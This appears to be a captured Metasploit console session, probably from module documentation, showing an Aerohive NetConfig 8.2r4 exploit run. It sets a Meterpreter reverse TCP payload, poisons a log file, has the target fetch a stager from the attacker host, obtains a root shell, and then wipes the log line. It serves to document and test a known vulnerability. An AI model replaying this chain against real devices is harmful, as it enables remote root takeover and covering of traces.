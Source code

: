 ```
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /                yes       The base path to Aerohive NetConfig
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.229    yes       The listen address (an interface may be specified)
   LPORT  4001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse TCP handler on 192.168.1.229:4001
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Using URL: http://0.0.0.0:8080/d6UNmlXIko
[*] Local IP: http://192.168.1.229:8080/d6UNmlXIko
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.1.151 (curl/7.50.1) requested /d6UNmlXIko
[*] Sending payload to 192.168.1.151 (curl/7.50.1)
[*] Sending stage (902096 bytes) to 192.168.1.151
[*] Attempting to clean the log file at /tmp/messages...
[!] Please note this will render the target (temporarily) unexploitable. This state can last over an hour.
[+] Successfully cleaned up the log by deleting the line with the PHP syscal from /tmp/messages.
[*] Meterpreter session 24 opened (192.168.1.229:4001 -> 192.168.1.151:52430 ) at 2021-11-02 16:55:12 +0000
[*] Server stopped.

meterpreter > shell
Process 3096 created.
Channel 1 created.
grep 'php system' /tmp/messages
id
uid=0(root) gid=0(root)
```
